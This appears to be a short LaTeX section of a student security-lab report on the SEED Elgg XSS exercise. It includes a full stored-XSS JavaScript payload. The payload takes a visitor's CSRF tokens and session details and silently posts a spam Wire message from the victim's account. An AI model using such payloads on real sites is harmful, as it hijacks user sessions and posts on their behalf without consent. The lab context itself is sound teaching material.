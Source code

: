 \documentclass[12pt]{article}
\begin{document}
    \begin{figure}[H]
         \centering
         \includegraphics[width=0.95\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. So, we place this script in the ``About Me'' section once again.

\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (name == "Samy") return;

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}

When Alice visits Samy's profile this time, a post is made from her profile without her knowing it.

    \begin{figure}[H]
         \centering
         \includegraphics[width=0.9\textwidth]{Images/ss5.png}
         \caption{Wire post made from Alice's profile}
         \label{fig:ss5}
     \end{figure}
\end{document}
